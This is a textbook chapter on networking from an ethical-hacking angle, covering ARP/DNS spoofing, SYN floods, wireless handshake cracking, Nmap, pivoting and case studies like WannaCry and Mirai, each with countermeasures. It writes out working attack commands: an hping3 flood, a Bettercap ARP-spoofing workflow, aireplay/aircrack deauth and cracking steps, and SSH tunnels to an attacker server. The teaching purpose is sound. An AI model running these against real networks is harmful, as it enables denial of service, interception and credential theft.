


# Chapter 12: Cybersecurity and Ethical Hacking Perspective

## Introduction
Networking forms the digital nervous system of modern infrastructure. Traditional networking focuses on how these systems successfully communicate, establish connections, and route traffic efficiently. However, the true mastery of networking is found in understanding how these mechanisms can be manipulated, broken, or exploited. This chapter extensively bridges the gap between pure network engineering and offensive cybersecurity, offering an exhaustive deep dive into the ethical hacking perspective of network architecture, protocols, and vulnerabilities. 

---

## BEGINNER SECTION: Fundamentals and Mindset

### Why Every Networking Student Should Understand Hacking

In contemporary enterprise environments, building a functional network is no longer sufficient; the network must be undeniably secure. Understanding the offensive perspective is paramount for multiple critical reasons:

1. **Security is the Most Critical Skill:** Networks are the primary battleground for cyber warfare. The technical mechanisms you deploy (routing protocols, VLANs, load balancers) are the exact surfaces attackers target. A network engineer who does not understand security is simply building a highly efficient conduit for malware.
2. **Defenders Must Think Like Attackers:** The fundamental asymmetry of cybersecurity dictates that defenders who cannot anticipate an attacker's next move will inevitably lose. Knowing the attack gives you the granular, protocol-level understanding required to build resilient defenses. 
3. **The Highest-Paying Career Path:** The intersection of deep networking knowledge and offensive security (e.g., Network Penetration Testing, Security Architecture) represents the most lucrative and highly sought-after career trajectory in the tech industry today.
4. **Vulnerability Over Theory:** While standard networking teaches you how the three-way handshake works, offensive networking teaches you how sending half-open handshakes indefinitely can crash a server (SYN Flooding). This practical application of theory is what distinguishes entry-level engineers from elite architects.

### The Hacker Mindset vs. The Defender Mindset

The psychological and strategic approaches of attackers and defenders are fundamentally distinct.

| Attribute | The Attacker Mindset (Offensive) | The Defender Mindset (Defensive) |
| :--- | :--- | :--- |
| **Primary Goal** | Exploit the single weakest link to gain unauthorized access or cause disruption. | Protect every single link in the chain continuously without disrupting business operations. |
| **The Asymmetric Game** | The attacker only needs to be right **once** (one unpatched server, one clicked phishing link). | The defender must be right **100% of the time**. One failure compromises the entire system. |
| **Scope of View** | Looks for the boundaries, edge cases, default configurations, and forgotten legacy systems. | Looks at the overall architecture, compliance requirements, logs, and systemic health. |
| **Time Constraint** | Often has unlimited time to perform stealthy reconnaissance and wait for a vulnerability. | Operates under strict SLAs, constant alerts, and the pressure to maintain maximum uptime. |

> **Real-World Analogy:** Imagine defending a massive medieval castle. The defender (Network Engineer) must patch every hole in the wall, guard every door, monitor the water supply, and ensure legitimate traders can still enter the gates. The attacker (Hacker) only needs to find one sleeping guard at a forgotten backdoor to compromise the entire fortress. To be a good defender, you must constantly walk the perimeter and ask, "How would I break into this if I were locked out?"

### Ethical Hacking vs. Malicious Hacking

The technical methodologies used by ethical hackers and malicious hackers (threat actors) are virtually identical; they use the same tools, the same exploits, and target the same OSI layer vulnerabilities. 

**The sole differentiator is explicit, documented permission.**

*   **Malicious Hacking (Black Hat):** Gaining unauthorized access to systems for financial gain, espionage, or disruption. This is a federal crime.
*   **Ethical Hacking (White Hat):** Gaining authorized access to systems to identify vulnerabilities so they can be patched before malicious actors exploit them. This is typically governed by a strict legal document called the Rules of Engagement (RoE).

#### The Ecosystem of Ethical Hacking
*   **Bug Bounty Programs:** Companies (like Google, Apple, or Tesla) offer financial rewards to independent security researchers who safely discover and report vulnerabilities in their infrastructure.
*   **Penetration Testing Careers:** Full-time roles where engineers simulate cyberattacks on their client's networks (Network Pentesting) or applications (Web Pentesting) to validate security postures.
*   **CTF (Capture The Flag) Competitions:** Gamified educational environments where security professionals legally hack into intentionally vulnerable systems to locate hidden flags (strings of text), testing their skills in real-time scenarios.

#### Responsible Disclosure
When an ethical hacker discovers a vulnerability outside of a formal bug bounty program, they practice **Responsible Disclosure**. This involves privately notifying the affected vendor, providing them with technical details and a reasonable timeframe (typically 90 days) to release a patch before the vulnerability is made public to the broader cybersecurity community.

### The 5 Pillars of Networking in Ethical Hacking

Understanding a network from an attacker's perspective requires breaking the environment down into five distinct pillars.

#### 1. Attack Surface Identification
Before an attack can be launched, the hacker must identify what is available to attack. The attack surface encompasses all potential points of entry into a system.
*   **Actions:** Scanning for open TCP/UDP ports, identifying misconfigured cloud storage buckets, finding exposed administrative interfaces (like RDP or SSH), and cataloging leaked information on GitHub.
*   **Goal:** Find the door that was left unlocked.

#### 2. Lateral Movement and Pivoting
Initial access rarely lands an attacker directly on their primary objective (e.g., the core database). Attackers usually compromise a low-privilege system first (like an employee's workstation or a frontend web server).
*   **Actions:** Exploiting trust relationships between machines, harvesting cached credentials from memory, and tunneling traffic through compromised hosts to reach isolated subnets.
*   **Goal:** Traverse the internal network architecture to reach high-value targets, such as Domain Controllers or sensitive data repositories.

#### 3. Data Interception
Networks are conduits for data. If that data is not properly secured in transit, it is vulnerable to interception.
*   **Actions:** Executing Man-in-the-Middle (MitM) attacks, sniffing plaintext protocols (like Telnet or FTP), and capturing session cookies or Personally Identifiable Information (PII) as it flows across the wire.
*   **Goal:** Steal credentials and sensitive data passively without interacting directly with the end servers.

#### 4. Service Discovery
Simply knowing a port is open is not enough; the attacker must know exactly what software is listening on that port.
*   **Actions:** Grabbing banners, enumerating running services, identifying Operating System (OS) versions, and mapping those specific versions to known Common Vulnerabilities and Exposures (CVEs).
*   **Goal:** Match the listening service to an existing exploit payload.

#### 5. Infrastructure Mapping
A network is a complex web of routers, switches, firewalls, and subnets. An attacker must map this out to understand the terrain.
*   **Actions:** Tracing routing paths, understanding network segmentation (VLANs), identifying firewall rules based on response times, and mapping trust relationships.
*   **Goal:** Create a comprehensive topological map of the target environment to plan evasion and movement strategies.

---

## INTERMEDIATE SECTION: Exploitation and Attack Vectors

### Complete Hacker Port and Vulnerability Matrix

To successfully navigate a network attack, an ethical hacker must memorize the most common ports, their associated protocols, inherent vulnerabilities, and the standard tooling used to exploit them.

| Port | Protocol | Service | Common Attacks & Vulnerabilities | Standard Hacker Tools |
| :--- | :--- | :--- | :--- | :--- |
| **21** | TCP | FTP (File Transfer) | Anonymous login enabled, credential brute-forcing, directory traversal, cleartext banner grabbing. | Nmap, Hydra, Metasploit, Netcat |
| **22** | TCP | SSH (Secure Shell) | Private key theft, brute-forcing (weak passwords), version-specific CVEs (e.g., legacy OpenSSH vulns). | Hydra, `nmap --script ssh-auth-methods` |
| **23** | TCP | Telnet | Credential sniffing (it is a completely plaintext protocol), brute-forcing, banner grabbing. | Wireshark, Hydra, Tcpdump |
| **25** | TCP | SMTP (Email) | Open relay abuse (spamming), email spoofing, user enumeration via `VRFY` and `EXPN` commands. | Nmap, smtp-user-enum, swaks |
| **53** | TCP/UDP | DNS | DNS Cache poisoning, Zone Transfer (AXFR) leaks, Amplification DDoS attacks, subdomain enumeration. | dig, dnsenum, fierce, dnsrecon |
| **80** | TCP | HTTP (Web) | SQL Injection (SQLi), Cross-Site Scripting (XSS), Command Injection, LFI/RFI, directory traversal. | Burp Suite, OWASP ZAP, SQLmap, Nikto |
| **443** | TCP | HTTPS (Secure Web) | SSL stripping (downgrade to HTTP), certificate spoofing, Heartbleed (CVE-2014-0160), BEAST/POODLE. | SSLstrip, Bettercap, sslscan |
| **139/445** | TCP | SMB (Windows Share) | EternalBlue / MS17-010 (WannaCry vector), null session enumeration, pass-the-hash attacks. | Metasploit, CrackMapExec, enum4linux |
| **3306** | TCP | MySQL | SQL injection, default credentials (`root` / no password), privilege escalation to OS level. | Nmap, sqlmap, Metasploit |
| **3389** | TCP | RDP (Remote Desktop) | Credential stuffing, brute-forcing, BlueKeep (CVE-2019-0708), session hijacking. | Hydra, Metasploit, rdesktop, xfreerdp |
| **8080** | TCP | HTTP-Alt (Proxy/Web) | Same vectors as Port 80, often hosts neglected web management interfaces with default credentials. | Burp Suite, Nikto, DirBuster |
| **161** | UDP | SNMP (Management) | Community string brute-force (default 'public' or 'private'), total device enumeration, MIB walking. | snmpwalk, onesixtyone, Metasploit |

### Attack Techniques - Detailed Explanations

#### 1. ARP Poisoning / ARP Spoofing (Layer 2)
ARP (Address Resolution Protocol) maps Layer 3 IP addresses to Layer 2 MAC addresses. The protocol has a fundamental security flaw: **It has no authentication mechanism.** Anyone can send an ARP reply, and devices will blindly trust it.

*   **The Mechanics:**
    1. The Attacker sends an unsolicited ARP Reply to the Victim machine saying: *"The Gateway's IP (e.g., 192.168.1.1) is at MY MAC Address."*
    2. The Attacker sends an unsolicited ARP Reply to the Gateway saying: *"The Victim's IP (e.g., 192.168.1.100) is at MY MAC Address."*
    3. Both the Victim and the Gateway update their ARP caches with the attacker's MAC address.
    4. All traffic between the Victim and the Gateway now physically flows through the attacker's machine. This establishes a Man-in-the-Middle (MitM) position.
    5. The attacker silently relays the traffic (IP forwarding) so the victim does not lose internet connectivity, while capturing or modifying the packets.
*   **Tools Used:** Ettercap, Bettercap, arpspoof (dsniff suite), Scapy (Python).
*   **Defensive Countermeasures:**
    *   *Static ARP Entries:* Hardcoding MACs (highly impractical at enterprise scale).
    *   *Dynamic ARP Inspection (DAI):* Enterprise switches validate ARP packets against a trusted DHCP snooping binding table, dropping forged packets.
    *   *Encryption:* Mandating HTTPS/TLS everywhere. Even if traffic is intercepted, the attacker only sees encrypted ciphertext.



#### 2. DNS Spoofing / DNS Cache Poisoning
The goal of DNS spoofing is to trick a victim's machine into translating a legitimate domain name (e.g., `bank.com`) into a malicious IP address controlled by the attacker.

*   **Local DNS Poisoning:** Modifying the local `/etc/hosts` (Linux/Mac) or `C:\Windows\System32\drivers\etc\hosts` file on a compromised machine. The system checks this file before querying DNS servers.
*   **DNS Cache Poisoning (Network Level):** Injecting false records into a DNS resolver's cache. 
    *   *The Kaminsky Attack:* The attacker floods a recursive DNS server with forged replies. To succeed, the attacker must correctly guess the 16-bit Transaction ID and the randomized UDP Source Port. 
*   **DNS Spoofing via MitM:** Once ARP poisoning is achieved, the attacker intercepts the victim's outbound DNS query for `bank.com` and instantly replies with a fake DNS response pointing to their own web server, beating the legitimate DNS server's response.
*   **Tools Used:** Bettercap, dnschef, Responder.
*   **Defensive Countermeasures:** DNSSEC (which cryptographically signs DNS records), DNS over HTTPS (DoH), and DNS over TLS (DoT).

#### 3. SYN Flooding (Denial of Service - Layer 4)
This attack exploits the TCP Three-Way Handshake.
*   **The Mechanics:** The attacker sends thousands of TCP `SYN` packets to a server with randomly spoofed source IP addresses. The server dutifully responds to each with a `SYN-ACK` and allocates memory in its connection table, waiting for the final `ACK`. Because the source IPs are fake, the final `ACK` never arrives. The server's connection table fills up with "half-open" connections until it exhausts its resources and denies service to legitimate users.
*   **Tools Used:** `hping3 -S --flood -p 80 target_IP`, Scapy.
*   **Defensive Countermeasures:** SYN Cookies (cryptographically encoding the state in the TCP sequence number so memory isn't allocated until the final ACK), rate limiting, and stateful firewalls.

#### 4. CAM Table Overflow (MAC Flooding - Layer 2)
This attack targets the underlying architecture of network switches.
*   **The Mechanics:** A switch relies on a Content Addressable Memory (CAM) table to map MAC addresses to physical switch ports. This memory is finite. An attacker rapidly generates and sends hundreds of thousands of Ethernet frames, each with a randomly generated, fake Source MAC address.
*   **The Result:** The CAM table completely fills up. When a switch's CAM table is full, it cannot map new MAC addresses. To ensure traffic isn't lost, the switch "fails open" and reverts to operating like a legacy network Hub—it broadcasts all incoming frames out of every port.
*   **Impact:** The attacker (connected to any port on the switch) can now launch Wireshark and sniff all traffic across the entire VLAN, bypassing switch segmentation.
*   **Tools Used:** macof, Scapy.
*   **Defensive Countermeasures:** Port Security (configuring the switch port to allow only a strict maximum number of MAC addresses, shutting down the port if the limit is exceeded).

#### 5. BGP Hijacking
This is a massive, infrastructure-level attack, often executed by nation-states or compromised Internet Service Providers (ISPs), targeting the core routing protocol of the internet.
*   **The Mechanics:** BGP routes traffic across Autonomous Systems (AS) based on trust. If a malicious AS falsely advertises to global BGP routers that it possesses the most optimal (more specific) route to a target IP subnet, global traffic will redirect to the attacker.
*   **Case Study (2008 Pakistan Telecom):** Pakistan attempted to censor YouTube internally by advertising a highly specific BGP route (`208.65.153.0/24`) for YouTube's servers. Because this was more specific than YouTube's legitimate `/22` advertisement, global internet routers preferred the Pakistani route. Global YouTube traffic was routed into Pakistan Telecom and blackholed, causing a worldwide outage.
*   **Defensive Countermeasures:** RPKI (Resource Public Key Infrastructure) which cryptographically signs route origins, and BGPSec.

#### 6. OSPF Poisoning (Layer 3)
Targeting internal enterprise routing protocols.
*   **The Mechanics:** An attacker on the internal network injects forged Link-State Advertisements (LSAs) into the OSPF domain. By advertising a fake, extremely low-cost metric route to a critical subnet, the attacker forces the enterprise routers to recalculate the Shortest Path First (SPF) tree, routing sensitive internal traffic through the attacker's machine for interception.
*   **Defensive Countermeasures:** Mandating OSPF authentication (MD5 HMAC or SHA-HMAC cryptographic hashes on all routing updates).

#### 7. HTTP Request Smuggling (Layer 7)
A sophisticated attack exploiting the translation discrepancy between front-end servers (Load Balancers/Reverse Proxies) and back-end application servers.
*   **The Mechanics (CL-TE Vulnerability):** 
    *   The Front-end relies on the `Content-Length` (CL) header.
    *   The Back-end relies on the `Transfer-Encoding: chunked` (TE) header.
    *   The attacker crafts a single HTTP request containing *both* headers, with conflicting values.
    *   The Front-end processes the `Content-Length` and forwards the entire payload as one request. 
    *   The Back-end processes the `Transfer-Encoding` chunked data, parses the first chunk, and assumes the request is finished. However, the remainder of the attacker's malicious payload is left "smuggled" in the Back-end's buffer. 
    *   When the *next* legitimate user sends a request, the Back-end prepends the attacker's smuggled payload to the innocent user's request, resulting in session hijacking, cache poisoning, or unauthorized actions.
*   **Defensive Countermeasures:** Normalize ambiguous HTTP requests at the load balancer, strictly reject requests containing both CL and TE headers, and ensure HTTP/2 is used end-to-end.

#### 8. SSL Stripping
A technique used to defeat HTTPS encryption without needing to crack the encryption keys.
*   **The Mechanics:** This attack requires a MitM position (via ARP poisoning). 
    1. A victim types `bank.com` into their browser (defaulting to HTTP).
    2. The attacker intercepts this HTTP request.
    3. The attacker establishes a legitimate, secure HTTPS connection with `bank.com` on the victim's behalf.
    4. The attacker serves an unencrypted HTTP version of the site back to the victim.
    5. The victim inputs their credentials into the HTTP site, which the attacker reads in plaintext, before forwarding them via HTTPS to the real bank server.
*   **Defensive Countermeasures:** HSTS (HTTP Strict Transport Security), which commands the browser to *never* connect via HTTP, and HSTS Preloading (hardcoding domains into the browser's source code to enforce HTTPS on the very first visit).

### Man-in-the-Middle (MitM) - Complete Attack Chain

Understanding a MitM attack requires seeing how the individual techniques string together into a seamless exploit chain.

```mermaid
flowchart TD
    A["1. Gain Local Network Access"] --> B["2. ARP Poisoning (arpspoof / bettercap)"]
    B --> C["3. Enable IP Forwarding (sysctl net.ipv4.ip_forward=1)"]
    C --> D["4. Intercept Traffic Stream"]
    D --> E{"Is Traffic Encrypted?"}
    E -->|Yes (HTTPS)| F["5. Execute SSL Stripping"]
    E -->|No (HTTP/FTP/Telnet)| G["6. Direct Credential Capture"]
    F --> G
    G --> H["7. Session Hijacking / Cookie Theft"]
    H --> I["8. Inject Malicious Content (JS payloads) into unencrypted responses"]
```

#### Full Bettercap MitM Workflow (Educational Walkthrough)
Bettercap is the modern framework for executing MitM attacks.
1. `sudo bettercap -iface eth0` (Launch Bettercap on the active network interface).
2. `net.probe on` (Actively discover hosts on the local subnet).
3. `set arp.spoof.targets 192.168.1.100` (Target the specific victim's IP address).
4. `arp.spoof on` (Initiate the ARP poisoning attack).
5. `net.sniff on` (Begin capturing the routed traffic).
6. Optionally, enable the `http.proxy` module to implement SSL stripping or inject custom JavaScript into the victim's web pages.

### Wireless Attacks

Wireless networks (IEEE 802.11) expand the attack surface physically outside the building, allowing attackers to compromise networks from the parking lot.

#### Deauthentication Attack
*   **Vulnerability:** In WPA2, 802.11 management frames (like disassociation and deauthentication packets) are transmitted in plaintext without authentication.
*   **The Mechanics:** The attacker spoofs the MAC address of the legitimate Access Point (AP) and sends a broadcast or targeted Deauthentication frame to connected clients. The clients instantly drop their connection to the AP.
*   **Purpose:** To create a Denial of Service, or more commonly, to force the client to automatically reconnect so the attacker can capture the WPA 4-way handshake.
*   **Tools:** `aireplay-ng -0 10 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon`
*   **Defensive Countermeasures:** WPA3 implements PMF (Protected Management Frames), mathematically preventing deauthentication spoofing.

#### WPA/WPA2 Handshake Capture and Cracking
When a client connects to a WPA2 network, a 4-way cryptographic handshake occurs. This handshake contains cryptographic hashes that can be brute-forced offline.

| Step | Command / Action | Purpose |
| :--- | :--- | :--- |
| **1. Monitor Mode** | `airmon-ng start wlan0` | Converts the wireless adapter from managed mode to monitor mode (`wlan0mon`), allowing it to capture packets not destined for its MAC address. |
| **2. Reconnaissance** | `airodump-ng wlan0mon` | Scans the airwaves to discover target networks, their BSSIDs (MACs), and channels. |
| **3. Targeted Capture** | `airodump-ng -c 6 --bssid [AP_MAC] -w capture wlan0mon` | Locks onto the specific channel and AP, saving all captured packets to a file named `capture.cap`. |
| **4. Force Handshake** | `aireplay-ng -0 5 -a [AP_MAC] wlan0mon` | Executes a deauth attack, forcing a client to disconnect and immediately reconnect, generating a fresh 4-way handshake. |
| **5. Verification** | Observe `airodump-ng` output | Wait for the `[ WPA handshake: MAC ]` notification to appear in the top right corner. |
| **6. Offline Cracking** | `aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt` | Uses a dictionary attack (like the famous rockyou.txt wordlist) to hash guesses and compare them against the captured handshake until the password is found. |

#### Evil Twin / Rogue Access Point
*   **The Mechanics:** An attacker spins up a rogue wireless Access Point broadcasting the exact same SSID (network name) as the legitimate corporate or coffee shop network. By broadcasting a stronger signal (or executing a continuous deauth attack against the real AP), client devices will automatically and silently connect to the attacker's Evil Twin.
*   **Impact:** The attacker instantly becomes the default gateway, achieving a perfect Man-in-the-Middle position. They can serve fake Captive Portal login pages (e.g., "Please log in to update router firmware") to harvest credentials.
*   **Tools:** hostapd-wpe, WiFi-Pumpkin, Wifiphisher.

---

## ADVANCED SECTION: Network Forensics, Pivoting, and Case Studies

### Packet Analysis with Wireshark

Wireshark is the industry standard for deep packet inspection. Advanced networking professionals use it both defensively (hunting for malware) and offensively (extracting credentials from pcaps).

#### Wireshark Filter Reference Table

| Filter Type | Syntax Example | Use Case / Analysis Goal |
| :--- | :--- | :--- |
| **Capture Filter** (BPF Syntax - Applied *before* capture to save RAM/Disk) | `tcp port 80` | Capture only HTTP traffic. |
| **Capture Filter** | `host 192.168.1.100` | Isolate traffic strictly originating from or destined to a specific host. |
| **Capture Filter** | `not broadcast and not multicast` | Eliminate background network noise (STP, ARP broadcasts, SSDP). |
| **Display Filter** (Applied *after* capture for analysis) | `tcp.flags.syn == 1 && tcp.flags.ack == 0` | Isolates pure SYN packets. A massive flood of these indicates a SYN Flood DoS or an aggressive Nmap port scan. |
| **Display Filter** | `http.request.method == "POST"` | Isolates HTTP POST requests, which is where submitted usernames, passwords, and form data reside. |
| **Display Filter** | `dns.qry.name contains 'google'` | Filters for DNS queries related to a specific domain name. |
| **Display Filter** | `tcp.analysis.retransmission` | Highlights retransmissions. High volumes indicate severe network congestion or dropped packets (potentially from a DoS attack). |
| **Display Filter** | `http.response.code == 200` | Shows only successful HTTP responses, filtering out 404s and 500s. |

#### Advanced Wireshark Analytics
*   **Following TCP Streams:** By right-clicking a packet and selecting `Analyze -> Follow -> TCP Stream`, Wireshark reassembles the entire application-layer conversation (e.g., viewing the complete HTML of a downloaded webpage or the plaintext of a Telnet chat).
*   **Protocol Hierarchy:** `Statistics -> Protocol Hierarchy`. This provides a percentage breakdown of all traffic. Anomaly hunting starts here: if IPv4 traffic is 90% UDP on a corporate network where it should be TCP HTTPS, data exfiltration or a DDoS might be occurring.
*   **Identifying Anomalies:**
    *   *ARP Flood:* Hundreds of ARP requests from a single MAC in a few seconds strongly suggests ARP Poisoning/Scanning.
    *   *DNS Exfiltration:* An unusually high volume of DNS queries with extremely long, randomized subdomains (e.g., `A93jf029dj.malicious.com`) indicates malware tunneling stolen data out via DNS.

### Nmap Reconnaissance

Network Mapper (Nmap) is the premier tool for infrastructure mapping and service discovery. 

#### Nmap Command Reference Table

| Category | Command | Description | Stealth/Impact |
| :--- | :--- | :--- | :--- |
| **Host Discovery** | `nmap -sn 192.168.1.0/24` | Ping sweep (ICMP echo, TCP SYN 443, TCP ACK 80). Discovers live hosts without port scanning. | Low noise. |
| **Host Discovery** | `nmap -PR 192.168.1.0/24` | ARP scan. Only works on local subnets. Extremely fast and perfectly reliable against local firewalls. | High reliability. |
| **Port Scanning** | `nmap -sS [target]` | **TCP SYN Scan (Stealth Scan).** Sends a SYN. If SYN-ACK is received, port is open. Instantly sends RST to tear down connection before it's logged. | High stealth. Requires root/sudo. |
| **Port Scanning** | `nmap -sT [target]` | **Full Connect Scan.** Completes the full 3-way handshake. | Very noisy, highly logged. |
| **Port Scanning** | `nmap -sU [target]` | **UDP Scan.** Sends UDP packets. If ICMP Port Unreachable returns, it is closed. No response means open/filtered. | Extremely slow. |
| **Firewall Evasion** | `nmap -sN / -sF / -sX [target]` | **Null / FIN / XMAS Scans.** Exploits RFC loopholes. Sends packets with weird flag combinations to slip past stateless firewalls. | Highly anomalous, caught by modern IDS. |
| **Firewall Rule Checking**| `nmap -sA [target]` | **ACK Scan.** Used to map out firewall rule sets and determine if a firewall is stateful or stateless. | Advanced analysis. |
| **Service & OS** | `nmap -sV [target]` | **Version Detection.** Grabs banners and probes open ports to identify exact software versions. | Moderate noise. |
| **Service & OS** | `nmap -O [target]` | **OS Fingerprinting.** Analyzes subtle anomalies in the target's TCP/IP stack responses to guess the Operating System. | Highly intrusive. |
| **Aggressive** | `nmap -A [target]` | **Aggressive Scan.** Combines OS detection, Version detection, Script scanning, and Traceroute. | Extremely loud. |

#### Nmap Scripting Engine (NSE)
Nmap is extensible via Lua scripts, turning it into a vulnerability scanner.
*   `nmap --script=default [target]`: Runs a suite of safe, foundational scripts.
*   `nmap --script=vuln [target]`: Actively probes for known, exploitable vulnerabilities (CVEs).
*   `nmap --script=smb-vuln-ms17-010 [target]`: Specifically checks if the target is vulnerable to the EternalBlue exploit.

#### Scan Timing Templates
Nmap speed is controlled by the `-T` flag.
*   `-T0` (Paranoid): One packet every 5 minutes. Used for extreme IDS evasion.
*   `-T3` (Normal): Default speed.
*   `-T5` (Insane): Maximum speed, highly inaccurate on unstable networks, triggers alarms instantly.

### Lateral Movement and Pivoting

Pivoting is the art of routing your attack tools through a compromised host to access segmented network layers that are unreachable from the outside.

#### SSH Tunneling
If an attacker compromises a DMZ web server (which has SSH access), they can use it as a bridge.
*   **Local Port Forwarding:** `ssh -L 8080:internalserver:80 user@pivot_host`
    *   *Result:* The attacker opens their local browser, navigates to `localhost:8080`, and the traffic is securely tunneled through the `pivot_host` to access the hidden `internalserver` on port 80.
*   **Remote Port Forwarding:** `ssh -R 9090:localhost:22 user@attacker_server`
    *   *Result:* A compromised internal machine behind a strict NAT firewall reaches out to the attacker's server, punching a hole through the firewall, exposing its SSH port to the attacker on port 9090.
*   **Dynamic SOCKS Proxy:** `ssh -D 1080 user@pivot_host`
    *   *Result:* Turns the compromised machine into a SOCKS proxy. The attacker can now use a tool like **Proxychains** (`proxychains nmap -sT 10.0.0.0/24`) to route entire port scans and Metasploit modules directly through the pivot host into the internal network.

#### Command and Control (C2) Infrastructure
Advanced attackers deploy C2 frameworks (e.g., Metasploit/Meterpreter, Cobalt Strike, Sliver, Havoc) to maintain persistent, covert access. 
*   **HTTP/HTTPS C2:** Malware beacons back to the attacker over port 443, perfectly blending in with normal encrypted web browsing traffic.
*   **DNS C2:** Malware encodes commands and responses as base64 strings inside legitimate-looking DNS TXT queries. This is incredibly difficult for defenders to block, as DNS is fundamentally required for network operation.

### Real-World Case Studies

#### 1. WannaCry Ransomware (May 2017)
The most devastating ransomware worm in history.
*   **The Exploit:** Utilized the NSA-developed **EternalBlue (MS17-010)** exploit, which targeted a buffer overflow vulnerability in Microsoft's SMBv1 protocol on TCP port 445.
*   **The Attack Flow:** The worm scanned the public internet for any IP address with port 445 open. Upon finding one, it executed EternalBlue to gain SYSTEM-level access, installed the DoublePulsar backdoor, and dropped the WannaCry ransomware payload to encrypt the hard drive.
*   **Worm Propagation:** Unlike standard ransomware, it was a *worm*. Once inside a corporate network, it automatically scanned internal subnets, spreading laterally to every vulnerable machine without human interaction.
*   **The Impact:** Infected 200,000+ computers across 150 countries. The UK's NHS hospitals were severely impacted, resulting in canceled surgeries. Estimated global damages reached $4-8 billion.
*   **The Kill Switch:** Security researcher Marcus Hutchins reverse-engineered the malware and discovered it queried a hardcoded, unregistered domain name before encrypting. He registered the domain, which acted as a global kill switch, instantly halting the spread.
*   **Defense Lessons:** Disable legacy protocols (SMBv1), enforce strict network segmentation (preventing worm lateral movement), and maintain offline, immutable backups.



#### 2. Mirai Botnet (2016)
The attack that weaponized the Internet of Things (IoT).
*   **The Target:** Millions of cheap IoT devices (IP cameras, DVRs, home routers).
*   **The Exploit:** Mirai did not use a sophisticated zero-day. It simply scanned the internet for open Telnet ports (TCP 23) and attempted to log in using a hardcoded list of roughly 60 common **default credentials** (e.g., `admin:admin`, `root:12345`).
*   **The Scale:** It successfully compromised roughly 600,000 devices globally.
*   **The Attack:** The botnet controller commanded these devices to simultaneously launch a massive UDP/TCP flood against Dyn (a major DNS provider). The attack peaked at an unprecedented 1.2 Terabits per second (Tbps).
*   **The Impact:** Major platforms including Twitter, Netflix, Reddit, GitHub, and CNN went completely offline for hours.
*   **Defense Lessons:** Never expose IoT devices directly to the internet, isolate IoT devices on dedicated VLANs, absolutely prohibit Telnet, and mandate the changing of default credentials upon installation.

```mermaid
flowchart TD
    C2["Mirai Command & Control (C2) Server"] -->|Commands| IoT1["Compromised IP Camera"]
    C2 -->|Commands| IoT2["Compromised Home Router"]
    C2 -->|Commands| IoT3["Compromised DVR"]
    IoT1 -->|UDP/SYN Flood (1.2 Tbps)| Dyn["Dyn DNS Infrastructure"]
    IoT2 -->|UDP/SYN Flood (1.2 Tbps)| Dyn
    IoT3 -->|UDP/SYN Flood (1.2 Tbps)| Dyn
    Dyn -->|Service Collapse| InternetOutage["Global Internet Outages (Twitter, Netflix)"]
```

#### 3. SolarWinds Supply Chain Attack (2020)
A masterclass in advanced persistent threats (APTs) and supply chain compromise.
*   **The Method:** Attackers (attributed to Cozy Bear / Russian SVR) did not hack the targets directly. Instead, they compromised the build servers of SolarWinds, an enterprise IT monitoring software company. They injected a stealthy backdoor (SUNBURST) into the legitimate, cryptographically signed update packages for the SolarWinds Orion platform.
*   **The Scale:** Over 18,000 global organizations dutifully downloaded and installed the "legitimate" updates, installing the backdoor deep inside their networks.
*   **The Impact:** Major breaches across the US Government (Treasury, Commerce, Homeland Security) and top security firms like Microsoft and FireEye.
*   **Defense Lessons:** Software supply chain security is critical. Organizations must implement anomalous network traffic monitoring (hunting for C2 beaconing) even for "trusted" enterprise software, and utilize strict zero-trust architectures.

### Security Hardening Checklist

| Domain | Hardening Action | Goal / Rationale |
| :--- | :--- | :--- |
| **Network Devices** | Change all default credentials immediately. | Mitigates Mirai-style brute force and automated botnet integration. |
| **Network Devices** | Disable unused services and physical ports. | Shrinks the Attack Surface (Pillar 1). |
| **Network Devices** | Disable Telnet, enforce SSH v2 with Key-Based Auth. | Prevents plaintext credential sniffing and MitM attacks. |
| **Network Architecture** | Implement Network Segmentation (VLANs/Zones). | Contains breaches and prevents lateral movement (WannaCry mitigation). |
| **Network Architecture** | Deploy Stateful Firewalls between internal zones. | Ensures traffic between segments is validated and legitimate. |
| **Layer 2 Security** | Enable Port Security (MAC limiting). | Prevents CAM Table Overflow / MAC Flooding attacks. |
| **Layer 2 Security** | Enable DHCP Snooping & Dynamic ARP Inspection. | Stops rogue DHCP servers and neutralizes ARP Poisoning. |
| **Routing Security** | Configure OSPF/BGP Cryptographic Authentication. | Prevents route injection, OSPF poisoning, and traffic hijacking. |
